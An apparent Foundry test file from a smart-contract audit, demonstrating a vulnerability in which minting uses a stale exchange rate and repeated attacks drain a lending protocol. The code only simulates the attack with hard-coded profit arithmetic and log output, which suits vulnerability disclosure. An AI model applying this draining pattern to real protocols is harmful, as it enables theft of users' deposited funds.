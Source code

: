 ```solidity
    function demonstrateRepeatedExploits() external {
        console.log("\n=== REPEATED EXPLOITATION SCENARIO ===");
        
        uint256 totalDrained = 0;
        uint256 attackRounds = 5;
        
        for (uint256 i = 1; i <= attackRounds; i++) {
            // Each attack drains more as rates drift further apart
            uint256 currentDrift = staleStoredRate + (i * 0.05e18); // Rate drifts 5% more each round
            uint256 attackProfit = (ATTACK_AMOUNT * 0.05e18) / 1e18; // ~5% profit per attack
            
            totalDrained += attackProfit;
            
            console.log("Attack round", i);
            console.log("  Rate drift:", ((currentDrift - staleStoredRate) * 100) / staleStoredRate);
            console.log("  Profit this round:", attackProfit / 1e18);
            console.log("  Total drained:", totalDrained / 1e18);
        }
        
        console.log("\nTotal protocol loss after", attackRounds, "attacks:", totalDrained / 1e18);
    }
}

/**
 * @title Test Suite for Exchange Rate Exploit
 */
contract ExchangeRateAccountingTest is Test {
    ExchangeRateAccountingExploit exploit;
    
    function setUp() public {
        exploit = new ExchangeRateAccountingExploit();
    }
    
    function testExchangeRateAccountingMismatch() public {
        console.log("Testing exchange rate accounting mismatch exploit...\n");
        
        // Execute the main exploit demonstration
        exploit.demonstrateVulnerability();
        
        // Show maximum exploitation potential
        (uint256 maxProfit, uint256 optimalSize) = exploit.calculateMaximumExploit();
        
        // Demonstrate repeated attacks
        exploit.demonstrateRepeatedExploits();
        
        // Verify exploit profitability
        assertTrue(maxProfit > 0, "Exploit should be profitable");
        assertTrue(optimalSize > 10000e18, "Optimal attack should be significant");
        
        console.log("\n🚨 VULNERABILITY CONFIRMED:");
        console.log("Exchange rate staleness creates exploitable accounting mismatch");
        console.log("Protocol can be systematically drained through repeated attacks");
    }
    
    function testAccountingMismatchMechanics() public view {
        console.log("\n=== ACCOUNTING MISMATCH MECHANICS ===");
        
        console.log("\n📊 VULNERABLE SUPPLY CALCULATION:");
        console.log("mintTokens = (amount * 1e18) / exchangeRateStored()");
        console.log("❌ Problem: Uses STALE rate instead of current rate");
        console.log("❌ Result: Records MORE tokens than actually minted");
```